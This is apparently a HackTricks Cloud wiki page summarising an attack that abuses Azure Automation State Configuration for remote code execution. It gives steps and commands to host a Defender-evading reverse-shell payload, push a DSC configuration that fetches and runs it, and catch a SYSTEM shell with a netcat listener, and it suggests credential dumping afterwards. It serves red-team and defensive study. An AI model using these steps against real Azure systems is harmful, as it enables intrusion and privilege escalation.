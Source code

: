 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

The process involves setting up a remote server infrastructure to host a modified Nishang `Invoke-PowerShellTcp.ps1` payload, named `RevPS.ps1`, designed to bypass Windows Defender. The payload is served from a Kali Linux machine with IP `40.84.7.74` using a simple Python HTTP server. The operation is executed through several steps:

#### Step 1 — Create Files

* **Files Required:** Two PowerShell scripts are needed:
  1. `reverse_shell_config.ps1`: A Desired State Configuration (DSC) file that fetches and executes the payload. It is obtainable from [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
  2. `push_reverse_shell_config.ps1`: A script to publish the configuration to the VM, available at [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Variables and parameters in these files must be tailored to the user's specific environment, including resource names, file paths, and server/payload identifiers.

#### Step 2 — Zip Configuration File

* The `reverse_shell_config.ps1` is compressed into a `.zip` file, making it ready for transfer to the Azure Storage Account.

```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

#### Step 3 — Set Storage Context & Upload

* The zipped configuration file is uploaded to a predefined Azure Storage container, azure-pentest, using Azure's Set-AzStorageBlobContent cmdlet.

```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

#### Step 4 — Prep Kali Box

* The Kali server downloads the RevPS.ps1 payload from a GitHub repository.

```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

* The script is edited to specify the target Windows VM and port for the reverse shell.

#### Step 5 — Publish Configuration File

* The configuration file is executed, resulting in the reverse-shell script being deployed to the specified location on the Windows VM.

#### Step 6 — Host Payload and Setup Listener

* A Python SimpleHTTPServer is started to host the payload, along with a Netcat listener to capture incoming connections.

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```

* The scheduled task executes the payload, achieving SYSTEM-level privileges.

#### Conclusion

The successful execution of this process opens numerous possibilities for further actions, such as credential dumping or expanding the attack to multiple VMs. The guide encourages continued learning and creativity in the realm of Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
